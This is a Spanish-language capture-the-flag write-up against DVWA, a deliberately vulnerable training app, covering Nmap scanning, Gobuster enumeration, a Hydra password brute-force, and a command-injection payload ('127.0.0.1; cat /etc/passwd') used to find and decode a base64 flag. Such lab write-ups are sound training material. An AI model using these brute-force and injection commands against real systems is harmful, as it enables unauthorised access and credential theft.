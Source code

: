 # 🛡️ Manual de Pentesting: Captura de Flag en DVWA - Escaneo, Enumeración y Command Injection


**Este write-up forma parte del laboratorio de HackJourney. Para más información, visita [www.hackjourney.com](https://www.hackjourney.com)**


## 1. Escaneo de Puertos y Servicios

Comenzamos identificando los puertos abiertos del objetivo (`10.10.120.231`) usando **Nmap**:

```bash
sudo nmap 10.10.120.231 -n -Pn -sC -sV -sS --min-rate 5000 -oN scan1.txt
```

✅ Resultado:

- **Puerto 80/tcp abierto** (Servidor Apache 2.4.59 Debian)
- Página por defecto de Apache.

---

## 2. Enumeración de Directorios

Utilizamos **Gobuster** para encontrar rutas y archivos ocultos:

```bash
gobuster dir -u http://10.10.120.231 -w /usr/share/wordlists/dirb/common.txt -t 50 -x php,html,txt
```

✅ Descubrimiento:

- `/index.html`
- `/server-status` (403 Forbidden)
- No descubrimos `/dvwa/` inicialmente.

---

## 3. Fuerza Bruta de Acceso

Usamos **Hydra** para atacar el formulario de login de DVWA:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.120.231 http-post-form "/DVWA/login.php:username=^USER^&password=^PASS^&Login=Login failed"
```

✅ Usuarios y contraseñas válidas encontrados, por ejemplo:

- `admin:password`
- `admin:123456`
- `admin:iloveyou`
- (entre otros...)

---

## 4. Vulnerabilidad de Command Injection

Dentro de DVWA, en el módulo **Command Injection**, enviamos payloads maliciosos:

```bash
127.0.0.1; cat /etc/passwd
```

✅ Confirmamos ejecución de comandos en el sistema bajo el usuario `www-data`.

---

## 5. Búsqueda de Flags

Desde la web vulnerable, buscamos archivos relacionados a **flags**:

```bash
find / -name "*flag*" 2>/dev/null
```

✅ Hallazgo:

```
/var/www/html/DVWA/hackable/flags/fi.php
```

---

## 6. Captura del Flag

Leímos el contenido de `fi.php`:

```bash
127.0.0.1; cat /var/www/html/DVWA/hackable/flags/fi.php
```

Encontramos un texto codificado en **Base64**.

Contenido concatenado del código PHP:

```
NC4pIFRoZSBwb29sIG9uIFRoZSByb29mIG11c3QgaGF2ZSBhIGxlYWs=
```

Decodificando:

```bash
echo "NC4pIFRoZSBwb29sIG9uIFRoZSByb29mIG11c3QgaGF2ZSBhIGxlYWs=" | base64 -d
```

✅ Resultado del Flag:

```
4.) The pool on The roof must have a leak.
```

---

# 🌟 Conclusión

- **Explotación lograda**: Command Injection.
- **Flag capturada**: "The pool on The roof must have a leak."
- **Acceso obtenido**: ejecución remota de comandos como `www-data`.
- **Relevancia**: demuestra acceso a información sensible a través de explotación web.

---

# 📆 Anotaciones finales

| Concepto | Herramienta usada |
|:---------|:------------------|
| Escaneo de puertos | Nmap |
| Enumeración de rutas | Gobuster |
| Fuerza bruta de login | Hydra |
| Explotación de comandos | Payload manual en DVWA |
| Búsqueda de archivos sensibles | find, cat |
| Decodificación de Base64 | echo + base64 -d |

---

# 📦 Flag Capturada

> **4.) The pool on The roof must have a leak.**

🚩 **¡Éxito en la captura de la primera bandera!**

